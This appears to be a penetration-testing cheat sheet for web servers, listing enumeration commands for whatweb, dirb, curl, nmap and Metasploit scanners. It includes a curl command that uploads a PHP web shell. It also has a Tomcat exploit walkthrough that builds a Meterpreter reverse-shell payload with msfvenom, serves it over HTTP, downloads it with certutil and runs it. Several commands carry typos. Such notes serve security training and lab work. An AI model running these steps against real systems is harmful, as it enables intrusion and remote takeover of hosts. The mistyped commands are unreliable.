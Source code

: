 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. whatweb
	2. http
	3. dirb
	4. browsh
	5. lynx
	6. curl
	7. wget
	8. [nmap](#nmap)
	9. [msfconsole](#msfconsole)

---
# Overview

Used to host websites. 

## #Ports
- 80 : HTTP
- 443 : HTTPS
- 8080 : Common Alternative or proxy

## Usage
Use web-browser to access the site via hostname or IP.

## Related Services
- IIS : Windows HTTP Server
- NGINX : Server and Proxy
- Apache : server
- httpd : 

---
# #Tools

## whatweb
grabs information and runs tests
`wahtweb 192.168.32.3`

## http
grabs header information and html of page
`http 10.4.18.3`

## dirb
Will find directories that exists at the website using common built in wordlist using GET.
`dirb http://192.168.32.4`
```bash
dirb http:192.168.32.4 /user/share/metasploit-framework/wordlist/directory.txt
```

## browsh
website enumeration, will render website in ascii
`browsh --startup-url http://10.4.16.3/Default.aspx`
- ctrl-w : to exit

## lynx
similar to browsh, more text oriented

## curl
grabs the page from url
- `curl -v http:www.google.com`
- -I : get HEAD only
- -v : verbose
- -X OPTIONS : supported methods
- `curl http://192.168.8.1/uploads/ --upload-file /usr/share/webshells/php/simple-backdoor.php` : upload a file

## wget 
grabs files from url

---

## #nmap

```bash
nmap -p80 --script http-enum,http-headers,http-methods,http-webdav-scan --script-args url-path=/ 10.3.24.160
```
`nmap -sV -p80 10.34.5.3`
- --script
	- http-enum
		- will show some dir
	- http-headers
		- grabs http header information, shows service version info
	- http-methods
		- --script-args url-path=/webdav/
	- http-webdav-scan
		- --script-args url-path=/webdav/
	- banner
		- return banner, version info

---

## #msfconsole
### Metasploit Framework Console
- use auxiliary/scanner/http/http_version
	- `set rhosts 192.15.43.3`
	- `options`
	- `run`
- use auxiliary/scanner/http/brute_dirs
	- `set rhosts 192.165.2.3`
	- `options`
	- `run`
- use auxiliary/scanner/http/robots_txt
	- `set rhosts 192.168.32.3`
	- `run`
- `search tpye:exploit tomcat` : search for tomcat

#### Apache Tomcat Example
1. `use exploit/multi/http/tomcat_jsp_upload_bypass`
	1. info : shows that exploit uploads a java shell
	2. `set payload java/jsp_shell_bin_tcp`
	3. `show options` : will notice you have payload options to set
	4. will get basic cmd shell access
2. `msfvenom -p windows/meterpreter/reverse_tcp LHOST-10.10.5.4 LPORT=1234 -f exe > meterpreter.exe`
3. `sudo python -m SimpleHTTPServer 80` : host the payload
4. `certutil -urlcache -f http://10.10.5.4/meterpreter.exe meterpreter.exe` : use inbuilt tool to dl the payload
5. set up MSF handler with payload windows/meterpreter/reverse_tcp
6. `.\meterpreter.exe` : launch payload to connect to handler

### Useful Modules
- auxiliary/scanner/http/apache_userdir_enum
- auxiliary/scanner/http/brute_dirs
- auxiliary/scanner/http/dir_scanner
- auxiliary/scanner/http/dir_listing
- auxiliary/scanner/http/http_put
- auxiliary/scanner/http/files_dir
- auxiliary/scanner/http/http_login
- auxiliary/scanner/http/http_header
- auxiliary/scanner/http/http_version
- auxiliary/scanner/http/robots_txt



